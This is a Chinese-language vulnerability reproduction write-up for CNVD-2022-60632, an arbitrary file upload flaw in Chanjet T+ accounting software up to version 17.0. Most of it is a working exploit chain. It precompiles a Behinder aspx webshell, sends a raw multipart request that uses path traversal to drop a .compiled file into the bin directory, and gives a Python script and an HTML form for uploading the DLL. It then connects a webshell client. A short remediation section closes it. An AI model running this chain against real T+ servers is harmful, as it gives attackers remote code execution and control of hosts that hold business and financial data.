






## 一、环境安装

https://www.chanjetvip.com/product/goods/download-list?id=53aaa40295d458e44f5d3ce5

选择17.0

https://dad.chanapp.chanjet.com/TplusYZHJ17.0.zip

建议选择迅雷下载。解压后选择标准版安装

> ⚠**安全软件需关闭**

过程中需要配置MSSQL 数据库的。不设置即可

## 二、漏洞分析

略

## 三、漏洞复现

### 漏洞信息：

- 漏洞编号：CNVD-2022-60632
- 适用版本：`<=v17.0`
- 漏洞类型：任意文件上传
- 漏洞危害：可实现RCE获取主机权限
- 涉及接口：/tplus/SM/SetupAccount/Upload.aspx?preload=1

### 漏洞利用

#### **1、预编译aspx文件**

**使用Microsoft.NET的aspnet_compiler.exe预编译webshell文件**

```
C:\WINDOWS\Microsoft.NET\Framework\v2.0.50727\aspnet_compiler.exe -v / -p "E:\学习ing\2022\vul\畅捷通 T+任意文件上传漏洞\b1" "E:\学习ing\2022\vul\畅捷通 T+任意文件上传漏洞\b2" -fixednames
```

-p 代表webshell的目录。 C:\Users\administrator\Desktop\2 代表预编译文件保存目录。（不可为同一目录）

以冰蝎webshell的aspx文件为例，复制到1文件夹下，执行上述命令，即可在2文件夹bin目录下看到：



#### 2、compiled文件上传

```
POST /tplus/SM/SetupAccount/Upload.aspx?preload=1 HTTP/1.1
Host: 192.168.199.134
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.159 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: ASP.NET_SessionId=gvigofzulthd2v1i2q5zndtf; Hm_lvt_fd4ca40261bc424e2d120b806d985a14=1662302093; Hm_lpvt_fd4ca40261bc424e2d120b806d985a14=1662302093
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarywwk2ReqGTj7lNYlt
Content-Length: 504

------WebKitFormBoundarywwk2ReqGTj7lNYlt
Content-Disposition: form-data; name="File1";filename="../../../bin/load.aspx.cdcab7d2.compiled"
Content-Type: image/jpeg

<?xml version="1.0" encoding="utf-8"?>
<preserve resultType="3" virtualPath="/load.aspx" hash="62838a9aa" filehash="1eb3b21218d7" flags="110000" assembly="App_Web_load.aspx.cdcab7d2" type="ASP.load_aspx">
    <filedeps>
        <filedep name="/load.aspx" />
    </filedeps>
</preserve>
------WebKitFormBoundarywwk2ReqGTj7lNYlt--
```

使用burpsuite抓包重放如下请求




#### 3、dll文件上传

##### 方法一：Python上传

这里需使用 Python 模拟 multipart/form-data 请求，Python代码如下

```python
# coding: utf-8
import requests
import re

def upload_dll():
    files = {
             'File1': ('../../../bin/App_Web_load.aspx.cdcab7d2.dll', open('C:\\Users\\administrator\\Desktop\\2\\bin\\App_Web_load.aspx.cdcab7d2.dll', 'rb'), 'image/jpeg')
             }
    response = requests.post(url=upload_url, headers=headers, files=files)
    print(response.text)
    if response.status_code == 200 and re.search('无标题页', response.text) != None:
        check_url = 'http://192.168.199.134/tplus/load.aspx?preload=1'
        check_res = requests.get(url=check_url, headers=headers)
        print(re.search('错误信息(.*)(?=堆栈是)', check_res).group())

if __name__ == '__main__':
    # 上传链接
    upload_url = 'http://192.168.199.134/tplus/SM/SetupAccount/Upload.aspx?preload=1'
    # 请求头
    headers = {
        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36'
    }

    upload_dll()
```

上传完成之后访问如下链接验证webshell：

http://192.168.199.134/tplus/load.aspx?preload=1

如果出现`错误信息:文件“/tplus/load.aspx”不存在。`则表示上传失败



##### 方法二：html表单上传

尝试构造本地HTML表单，burp拦截进行文件上传

dllupload.html

```html
<form action="http://192.168.199.134/tplus/SM/SetupAccount/Upload.aspx?preload=1" method="post" enctype="multipart/form-data">
    <div><input type="file" name="File1"></div>
    <div><input type="submit" value="上传"></div>
</form>
```

发现compiled文件可以正常上传，但是dll文件上传后会无法连接，尝试访问shell地址，发现报如下错误信息。



经过多次进行测试验证，最终找到问题根源。**burp拦截上传dll请求时，需要将字体改为默认字体（consolas）**，不然保存的文件内容和源文件内容不一样。



#### 4、webshell链接

使用webshell工具链接上述地址

> 一定要加preload=1 这个。不然他还是走了验证的通道



## 四、修复方案

- 官方补丁， https://www.chanjetvip.com/product/goods/goods-detail?id=53aaa40295d458e44f5d3ce5
- WAF拦截，由于这是一个常规的上传漏洞，很多waf都是有默认的拦截能力的，需要的话也可以将 `/tplus/SM/SetupAccount/Upload.aspx` 路径进行主动拦截。

**参考链接**

- [CNVD-2022-60632 畅捷通任意文件上传漏洞复现 - print("") (o2oxy.cn)](https://www.o2oxy.cn/4104.html)
- [从0开始到Exploit工具编写 (buaq.net)](https://www.buaq.net/go-53733.html)
